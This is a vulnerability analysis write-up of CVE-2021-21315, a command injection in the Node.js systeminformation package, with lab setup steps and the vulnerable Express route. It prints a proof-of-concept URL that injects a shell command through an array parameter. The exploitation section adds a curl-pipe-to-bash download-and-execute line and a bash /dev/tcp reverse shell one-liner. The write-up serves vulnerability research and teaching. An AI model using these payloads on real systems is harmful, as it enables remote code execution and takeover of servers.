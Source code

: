 # CVE-2021-21315 Vulnerability Analysis

Author: H3rmesk1t

Data: 2022.05.16

# Vulnerability Information
```
The System Information Library for Node.JS (npm package "systeminformation") is an open source collection of functions to retrieve detailed hardware, system and OS information. In systeminformation before version 5.3.1 there is a command injection vulnerability. Problem was fixed in version 5.3.1. As a workaround instead of upgrading, be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected.
```

<div align=center><img src="./images/4.png"></div>

# Vulnerability reappears
First download the affected `Node.js`, using `v12.18.4`.

```bash
wget https://nodejs.org/dist/v12.18.4/node-v12.18.4-linux-x64.tar.xz

tar -xvf node-v12.18.4-linux-x64.tar.xz
```

<div align=center><img src="./images/1.png"></div>

And change the file name to `nodejs`, and move the file to the `/usr/local/sbin/` directory.

```bash
mv node-v12.18.4-linux-x64 nodejs
sudo mv nodejs/ /usr/local/sbin/
```

<div align=center><img src="./images/2.png"></div>

Then replace the soft connections of the files `node` and `npm`, and run `node.js` to see if the configuration is successful.

```bash
sudo ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
sudo ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

<div align=center><img src="./images/3.png"></div>

Download the corresponding [Vulnerability Environment] (https://github.91chi.fun/https://github.com/H3rmesk1t/CVE-2021-21315-ENV.git), and run the `index.js` file.

<div align=center><img src="./images/5.png"></div>

Execute `PoC`:

```
http://192.168.249.143:8000/api/getServices?name[]=$(echo 'whoami' > exp.sh)
```

<div align=center><img src="./images/6.png"></div>

<div align=center><img src="./images/7.png"></div>

# Vulnerability Analysis
Vulnerability Core Code:

```javascript
app.get('/api/getServices', (req, res) => {
  const queryData = req.query.name
  
  si.services(queryData).then((data) => {
  res.json(data);
  });
 
});
```

It is not difficult to see from the repair code that before calling further commands, the parameters will be cleaned to check whether they are string data types, and additionally check whether the parameter has been contaminated at any time. This operation does not exist in the code before repair. Attackers can use the form of an array to inject `Payload` into unfiltered parameters to execute system commands. It is also mentioned in the security announcement that service parameters passed to `si.inetLatency()`, `si.inetChecksite()`, `si.services()`, `si.processLoad()`, etc. must be checked or cleaned, and only strings are allowed and any array is rejected.

<div align=center><img src="./images/9.png"></div>

# Vulnerability Exploit

The existence of a code injection vulnerability in `systeminformation` means that an attacker can execute system commands by carefully injecting payloads within uninitialized parameters used by the component, for example:
 - Upload internal files: for example, `index.js` or other files.
 - Download and execute the script `curl -s http://server/path/exp.sh | bash /dev/stdin arg1 arg2`.
 - Reverse `shell`: `bash -i >& /dev/tcp/ip/port 0>&1`.
 - ......